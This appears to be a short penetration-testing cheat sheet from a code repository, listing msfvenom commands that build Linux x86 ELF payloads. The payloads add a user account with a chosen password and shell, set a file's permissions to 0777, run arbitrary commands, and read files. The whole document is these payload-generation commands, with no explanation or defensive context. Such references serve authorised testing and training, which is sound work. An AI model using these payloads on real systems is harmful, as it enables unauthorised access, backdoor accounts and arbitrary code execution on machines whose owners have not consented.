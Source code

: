 # Executable Binary Payloads

## Add User Linux Exec Payload

```
$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf -o payload
```

## Execute Linux Exec Payload

```
$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o payload-x86

$ msfvenom -p linux/x86/exec cmd="<commands>" -f elf -o payload-x86

$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o payload-x86
```